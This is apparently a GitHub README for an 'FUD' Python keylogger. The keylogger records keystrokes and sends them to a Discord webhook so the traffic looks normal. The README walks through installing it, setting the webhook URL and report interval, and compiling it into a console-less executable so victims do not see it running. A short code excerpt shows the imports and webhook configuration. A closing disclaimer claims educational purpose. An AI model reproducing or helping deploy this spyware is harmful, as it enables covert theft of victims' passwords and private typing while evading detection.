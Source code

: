 # FUD Keylogger That Reports To Discord #

This python script will capture all of the keystrokes within a given time frame and report them to a Discord Server using Webhooks. Instead of the traditional "save to file" or "report to email" methods, you can use this method to stay undetected since webhook requests are considered as normal Discord Traffic.

## Getting Started

Make sure you have Python installed on your machine, you download the installer from [here](https://www.python.org/downloads/).

## Installation
```
git clone https://github.com/evildevill/discord-keylogger.git
```

## Install Required Libraries
```
python -m pip install -r requirements.txt
```

## Create a Discord Server 

You can follow [this](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) article on how to do that.

## Create a Discord Webhook

Got to your servers settings select Intergrations >> Webhooks and create a new Webhook. You can also customize it and give it a name and a featured icon. Make sure to copy the URL, you will need it later.


## Edit keylogger.py
Its time to edit the python script. Now that you have the Webhook URL, you can add that to the file. Also make sure to add your desired timeframe that they keylogger will report to you. You have to add the time in seconds so you can use [this](https://www.calculatorsoup.com/calculators/conversions/time.php) converter to get the correct time in seconds.

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = TIME_IN_SECONDS_HERE
WEBHOOK = "WEBHOOK_URL_HERE"
```

## Execute the script

You are now ready to test the script and see whether if it works or not. If you are having problems with the script please open a new ticket on the issues tab and i will try to help you.

To execute the script all you have to do is run:
```
python keylogger.py
```
If all goes right, you should see a report on discord after the seconds you have specified on the script have passed.

## Compile the script

Now what if you want to turn this into an executable? You can do that with the pyinstaller library that was included in the requirements.txt file.
```
pyinstaller PATH_TO_SCRIPT --onefile --noconsole
```
## ⚠️ DISCLAIMER ⚠️

**I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!**
